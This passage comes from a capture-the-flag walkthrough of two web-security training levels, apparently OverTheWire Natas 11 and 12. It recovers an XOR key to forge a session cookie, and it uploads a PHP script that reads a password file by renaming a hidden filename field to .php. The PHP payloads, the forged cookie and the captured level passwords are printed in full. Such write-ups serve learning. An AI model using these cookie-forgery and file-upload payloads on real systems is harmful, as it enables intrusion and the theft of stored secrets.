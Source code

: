 ```
~ php -f xor-breaker.php
qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
```

The repetitions are because of the convolution, but the key itself is the unique part, so: `qw8J`.

Now we need to use this key to generate the fake cookie that will get us to change the value of showpassword.

```php
$payload = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

echo base64_encode( xor_encrypt(json_encode($payload), "qw8J"));
echo "\n";
```

```
~ php -f xor-breaker.php
ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
```

Using this value as the new cookie and refreshing the page:

```
The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
```

## 12 jPHPeg - jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

In this challenge we are presented with an image upload form and again a view source link. By following the view source we can see that it does a bunch of useless stuff and eventually it does:

```php
echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
```

So, our main objective is to upload a php script that will echo the `/etc/natas_webpass/natas13` file for us.

```php
<html>
<body>
<?php
echo file_get_contents("/etc/natas_webpass/natas13")
?>
</body>
</html>
```

By first trying to upload a simple .jpeg image, we get, as expected:

> The file upload/rn0ydnnuad.jpg has been uploaded

And clicking the link loads up the `rn0ydnnuad.jpg` image. This filename is set by a hidden form field, so in order to get the file to be created with a .php extension, we will need to craft the request such that we can change the filename of the hidden field.

By using Firefox's "edit and resend" (which is most like a simplified burp suite) I was able to edit the filename into `foobar.php`, which ended up uploading the file as `upload/nseef0aqii.php` and requesting this path on the browser got me the flag: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY.
